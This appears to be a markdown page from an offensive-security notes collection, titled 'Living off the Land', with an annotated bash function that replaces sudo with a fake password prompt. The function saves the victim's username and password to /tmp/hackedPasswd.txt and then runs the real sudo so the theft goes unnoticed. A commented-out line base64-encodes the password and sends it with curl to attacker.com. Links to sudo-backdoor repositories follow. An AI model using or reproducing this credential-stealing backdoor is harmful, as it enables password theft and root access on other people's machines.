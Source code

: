 # Living off the Land

```
$ type sudo
sudo is /usr/bin/sudo
```

```bash
function sudo() {
  # A "realsudo" variable is created. It calls the `which` command to locate
  # the path to the real sudo binary. This is used later in the function to
  # execute the target's desired command.
  realsudo="$(which sudo)"

  # The `read` command will prompt (`-p`) the target with a convincing password
  # request. The `-s` argument hides the input password, just as the real
  # sudo command would. The target password is then set in the "inputPasswd"
  # variable.
  read -s -p "[sudo] password for $USER: " inputPasswd

  # There are two `printf` commands here, separated by a semicolon.
  # The first simply prints a new line in the terminal, as the real sudo
  # does. The second writes the target's username and password to a
  # file called "hackedPasswd.txt" in the /tmp directory.
  printf "\n"; printf '%s\n' "$USER : $inputPasswd" >/tmp/hackedPasswd.txt

  # As an alternative to writing the password to the /tmp directory,
  # it can be exfiltrated to the attacker's server. Uncomment the below
  # "encoded" and "curl" lines to enable this function. The password
  # is encoded with `base64` to make it easier to transmit in the URL.
  # encoded=$(printf '%s' "$inputPasswd" | base64) >/dev/null 2>&1
  # curl -s "http://attacker.com/$USER:$encoded" >/dev/null 2>&1

  # The `-S` option allows users to input their sudo password using the command
  # line. This is used to run an arbitrary `exit` command (`-c`) as the root
  # user (`-u`) to unlock the sudo timeout function. This command and its
  # output are hidden (/dev/null) from the target. It's only here to allow
  # sudo usage for future commands.
  # For more on sudo timeouts and /dev/null, see:
  # https://itsfoss.com/change-sudo-password-timeout-ubuntu/
  # https://stackoverflow.com/questions/10508843/what-is-dev-null-21
  $realsudo -S <<< "$inputPasswd" -u root bash -c "exit" >/dev/null 2>&1

  # With the sudo timeout engaged, privileged commands can be run without
  # prompting the user for a password. This line will execute the target's
  # desired command.
  $realsudo "${@:1}"
}
```

```
$ type sudo
sudo is a function
..[omitted]..
```

---
## References

### Github

- [nisay759: sudo backdoor](https://github.com/nisay759/sudo-backdoor)

- [ldionmarcil: sudo backdoor](https://github.com/ldionmarcil/sudo-backdoor)

### Null Byte

- [Null Byte: Steal Ubuntu & MacOS Sudo Passwords Without Any Cracking](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/)

### Und3rf10w

- [Und3rf10w: Tales from the Terminal - Silly Sudo Backdoors](https://und3rf10w.github.io/posts/2022/01/07/sudodoor.html)